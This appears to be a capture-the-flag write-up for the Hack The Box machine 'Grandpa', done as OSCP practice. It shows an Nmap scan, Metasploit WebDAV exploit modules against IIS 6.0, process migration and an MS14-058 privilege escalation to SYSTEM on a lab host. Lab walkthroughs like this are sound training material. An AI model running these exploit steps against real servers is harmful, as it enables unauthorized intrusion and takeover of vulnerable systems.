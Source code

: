 ```yaml
---
title: "Hack The Box - Grandpa"
date: 2020-01-30
tags: [oscp, htb, windows, metasploit]
collection: oscp-prep
published: true
layout: single
classes: wide
toc: true
toc_label: Table of Contents
headline: "Exploiting IIS WebDAV and MS14-058 (with MSF)"
picture: /assets/htb-grandpa/machine_info.png
author_profile: true
---
```


![](/assets/htb-grandpa/machine_info.png)

> NOTE: This write-up is part of a set, with the other being Granny. Since the boxes are so similar, but the easy way to root is via Metasploit, I decided to do one with MSF, and one without. Grandpa will be done with Metaspliot, and Granny done without Metasploit, in order to better practice for the OSCP.

## Enumeration

Our initial Nmap scans show only port 80, running Microsoft IIS 6.0, which means this is a Windows Server 2003 machine. We can also see from the `http-webdav-scan` section of the below report, that WebDAV is enabled, and various methods are allowed.

```
Nmap scan report for 10.10.10.14
Host is up, received user-set (0.059s latency).
Scanned at 2020-01-30 17:13:15 EST for 18s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Thu, 30 Jan 2020 22:14:08 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  WebDAV type: Unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

---

## Initial Shell

### IIS Remote exploit

Let's see what IIS exploits MSF has for us. Launch Metasploit with `msfconsole`, then type `search iis` to get a list of matching exploits.

![](/assets/htb-grandpa/msf_search_iis.png)

The `exploit/windows/iis/iis_webdav_upload_asp` options looks good, as it's rated Excellent. So we can type `use exploit/windows/iis/iis_webdav_upload_asp` to load it. The `options` command shows the options for the module. 

![](/assets/htb-grandpa/msf_webdavasp_options.png)

You can see that the `RHOSTS` field is empty, so we need to set the IP of our target with `set 10.10.10.14`. Once this is set, simply type `run` to launch the exploit.

![](/assets/htb-grandpa/msf_webdavasp_run_failed.png)

### IIS Remote exploit (part duex!)

So it looks like this one failed, as it can't upload the text file it needs to exploit WebDAV. Let's try the other option of `exploit/windows/iis/iis_webdav_scstoragepathfromurl`, by typing `use exploit/windows/iis/iis_webdav_scstoragepathfromurl`.

![](/assets/htb-grandpa/msf_webdav_options.png)

Again, we can see that we need to set the `RHOSTS` variable with `set rhosts 10.10.10.14` before typing `run`. This time, we got back a meterpreter session.

![](/assets/htb-grandpa/msf_webdav_run_good.png)

---

## Privilege Escalation

### Migrate process

Now that we have a shell, let's see where we are. The `getuid` meterpreter command should give us back the user we're running as. However, it tells us that access is denied.

![](/assets/htb-grandpa/msf_getuid_failed.png)

Let's open a full shell with the `shell` command to see what's going on. As we can see with a `whoami` command, we're running as `NETWORK SERVICE`. SO the likely cause is that since we're not a real user on the mahcine, we're limited to what we can do.

![](/assets/htb-grandpa/msf_shell.png)

>NOTE: You can exit the shell with the `exit` command.

While the `NETWORK SERVICE` account is limited right now, we can possibly migrate our session to a process that is running as `NETWORK SERVICE`, which will allow us to run what we need. Meterpreter makes migration like this simple. All we need to do is hit `ps` to list the running serivces on the target, and find one running as the account we need. Notice that the `wmiprvse.exe` service is running as `NETWORK SERVICE` as well, so this is a good target for our migration.

![](/assets/htb-grandpa/msf_ps.png)

To migrate to the new process, ass we need to do is type `migrate 1856`, where `1856` is the PID of the target service. As you can see, this now allows us to properly interact with the system.

![](/assets/htb-grandpa/msf_migration.png)

### Local Exploit Suggester

Now that we can properly use our meterpreter session, we can see what we need to be able to gain administrative access. Metasploit has a handy module called `post/multi/recon/local_exploit_suggester`, which will use our existing session to suggest other MSF modules that we can use for privilege escalation. We can type `bg` to background the current meterpreter session, then type `search local_exploit` to find the module. Once we've found it, `use post/multi/recon/local_exploit_suggester` will load it, and `options` will show us the options for it. Note that the only real option variable is `SESSION`, where we need to point it to an existing meterpreter session.

![](/assets/htb-grandpa/msf_search_local_ex.png)

We can set the sesison with `set session 2`, and type `run` to run the module. YOu'll see it connect to our existing session, and list out possible exploit modules for us to try.

![](/assets/htb-grandpa/msf_exploit_suggestions.png)

### MS14-058

Now we need to pick an exploit from the list. I'm going with `exploit/windows/local/ms14_058_track_popup_menu`, as it tells me that the target appears vulnerable. Type `use exploit/windows/local/ms14_058_track_popup_menu` to load the module, and `options` to show the options. As before, we need to point it to our existing session with `set session 2`.

![](/assets/htb-grandpa/load_privesc.png)

On this specific exploit, there is another variable called `LHOST`, which is the IP of the machine that will run the listener. We can set this with `set lhost tun0`, to point it to the IP of our `tun0` interface, which is the HTB VPN. NOw we can simply type `run` to launch the exploit.

![](/assets/htb-grandpa/system_exploit.png)

As you can see, we got back another session as `SYSTEM`. Now all that's left is to grab `user.txt` and `root.txt` from the target.

### Loot

>NOTE: Use the meterpreter `shell` command to grab the files from a regular shell.

You can read `user.txt` from `C:\Documents and Settings\Harry\Desktop\user.txt`.

![](/assets/htb-grandpa/user_proof.png)

You can read `root.txt` from `C:\Documents and Settings\Administrator\Desktop\root.txt`

![](/assets/htb-grandpa/root_proof.png)

